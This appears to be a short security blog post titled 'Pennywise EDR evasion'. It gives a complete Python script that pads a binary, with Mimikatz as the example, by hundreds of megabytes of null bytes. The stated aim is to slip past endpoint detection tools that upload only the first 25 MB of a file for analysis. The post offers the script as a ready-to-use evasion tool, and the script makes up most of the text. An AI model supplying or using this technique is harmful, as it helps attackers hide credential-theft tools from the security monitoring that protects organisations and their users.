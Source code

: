 ```yaml
---

layout: post
title: Pennywise EDR evasion
---
```


<img height="200" align="left" src="/images/pennywise.png">Wanna have a balloon? This Tiny script helps to hide your payload (like Mimikatz.exe) by inflating the Binary like a red ballon. Most EDR Tools only transfer the first 25 MB to the Server, so why not filling up the payload with some garbage and play some mind tricks?

Tiny intro how this script works:

![](../images/pennywise_inflate.gif)

```python
#!/usr/bin/env python3
import argparse
import struct
import sys


parser = argparse.ArgumentParser(
    description="Pennywise's Red Balloon - Inflate your Payload"
)

parser.add_argument(
    "-f",
    "--file",
    help="Binary or file path including the binary",
)

parser.add_argument(
    "-s", 
    "--size",
    default=150,
    help="Size in MB to inflate binary - Default 150 MB", 
    type=int
)

args = parser.parse_args()

if len(sys.argv) <= 1:
    parser.print_help()
    sys.exit(1)

if not args.file:
    print("[!] Binary or path to a binary required!\n\n"
    "\t$ python -f c:\\fun\\mimikatz.exe -s 100\n"
    "\t$ python -f mimikatz.exe -s 250\n\n")
    parser.print_help()
    sys.exit(1)    

def transform(file, size):
    print("[!]\tInflating %s by %s MB" % (file, size))
    blank_bytes = struct.pack('B', 0)
    transformer = open(file, 'ab')
    transformer.write(blank_bytes * 1024 * 1024 * size)
    transformer.close()
    print("[!]\tOperation Complete...\n")

if __name__ == "__main__":
    transform(args.file, args.size)
```
